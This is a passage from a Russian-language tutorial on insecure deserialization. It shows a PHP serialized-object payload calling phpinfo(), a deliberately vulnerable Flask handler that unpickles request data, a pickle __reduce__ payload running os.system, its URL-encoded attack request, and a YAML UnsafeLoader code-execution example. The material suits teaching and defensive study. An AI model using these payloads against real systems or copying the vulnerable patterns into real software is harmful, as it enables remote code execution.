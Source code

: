 С использованием сериализованной полезной нагрузкой, указанной ниже, мы получим вывод функции **phpinfo**:

```html
https://example.com/vulnerable.php?data=O:9:"Injection":1:{s:9:"some_data";s:10:"phpinfo();";} 
```

**Python**

Здесь атака проводится через библиотеку pickle, которая предназначена для сериализации/десериализации объектов python.

```python
import pickle
from flask import request

@app.route('vulnerable.py', methods=['GET'])
def parse_request():
    data = request.request.args.get('data')
    if (data):
        pickle.loads(data)
        # ...
```

Подготовим полезную нагрузку:

```python
import pickle


class Payload(object):
    def __reduce__(self):
        return (exec, ('import os;os.system("ls")', ))


pickle_data = pickle.dumps(Payload())
print(pickle_data)
```

и выполним

```
https://example.com/vulnerable.py?data=%80%03cbuiltins%0Aexec%0Aq%00X%19%00%00%00import%20os%3Bos.system%28%22ls%22%29q%01%85q%02Rq%03.
```

**Yaml**

Существует множество языков и фреймворков, которые обеспечивают удаленное выполнение кода в ходе десериализации YAML

Например, выполнение аналогичного кода на Python приведет к выводу списка текущего каталога:

```python
import yaml

yaml.load("!!python/object/new:os.system [ls -la]", Loader=yaml.UnsafeLoader)
```

